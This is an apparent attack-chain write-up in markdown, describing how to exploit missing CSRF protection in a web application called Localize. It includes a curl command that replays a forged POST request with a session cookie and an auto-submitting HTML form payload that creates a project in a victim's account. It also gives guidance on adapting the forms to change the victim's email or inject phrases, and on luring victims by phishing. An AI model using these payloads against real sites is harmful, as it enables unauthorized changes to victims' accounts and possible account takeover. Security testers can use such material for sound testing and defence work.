

# CSRF Exploitation in Localize Application to Perform Unauthorized Project Creation and Settings Modification

Multi-stage attack chain demonstrating a complete attack workflow exploiting Cross-Site Request Forgery (CSRF) vulnerabilities in the Localize web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Text editor for crafting HTML payloads

### Target Environment

- Web platform (Localize application)
- Authenticated user session required
- No specific ports; standard HTTP/HTTPS

### Initial Access Requirements

- Attacker must host a malicious webpage accessible to the victim
- Victim must be authenticated in the Localize application
- Network access to the malicious site from the victim's browser

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoints
procedure: [[procedures/Identify-CSRF-Vulnerable-Endpoints-in-Web-Application]]

**Objective**: Examine the application's POST endpoints to confirm the absence of CSRF protection mechanisms, such as tokens.

**Instructions**: Use browser developer tools or a proxy like Burp Suite to inspect network requests during normal interactions with the application. Look for POST requests to endpoints like /pages/create_project, /pages/settings, and /add_phrase/{id}/languages/{lang}. Replay the requests without any CSRF token to verify if they succeed.

For example, test with [[commands/curl-test-csrf]] to simulate a forged request:

```bash
curl -X POST http://localize.example.com/pages/create_project -d "project_name=malicious_project" -b "session_cookie=authenticated_session"
```

**Expected Output**: The request succeeds without requiring a CSRF token, creating a project or modifying settings.

**Success Indicators**:
- Requests execute successfully without CSRF tokens
- No error messages related to token validation

### Step 2: Exploit CSRF to Perform Unauthorized Actions
procedure: [[procedures/Exploit-CSRF-to-Forge-Unauthorized-Requests]]

**Objective**: Craft a malicious HTML page that automatically submits forged POST requests to the vulnerable endpoints using the victim's authenticated session.

**Instructions**: Create an HTML file with auto-submitting forms targeting the identified endpoints. Host this page on a controlled server (e.g., via GitHub Pages or a simple HTTP server). Lure the victim to visit the page via phishing or social engineering.

Example HTML payload for creating a project:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-form" action="http://localize.example.com/pages/create_project" method="POST">
  <input type="hidden" name="project_name" value="attacker_project">
</form>
<script>
  document.getElementById('csrf-form').submit();
</script>
</body>
</html>
```

Adapt similar forms for /pages/settings (e.g., to change email) and /add_phrase/{id}/languages/{lang} (e.g., to inject malicious phrases). Verify exploitation by checking the victim's account for unauthorized changes.

**Expected Output**: Unauthorized project created, settings modified, or phrases added in the victim's account.

**Success Indicators**:
- Victim's account shows new projects, altered settings, or added phrases
- No user interaction required beyond visiting the malicious page

## Attack Chain Summary

### Key Achievements

1. Identified multiple POST endpoints lacking CSRF protection
2. Demonstrated ability to forge requests for unauthorized data manipulation
3. Highlighted potential for account compromise through tricked authenticated users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2024-10-01T12:00:00Z*
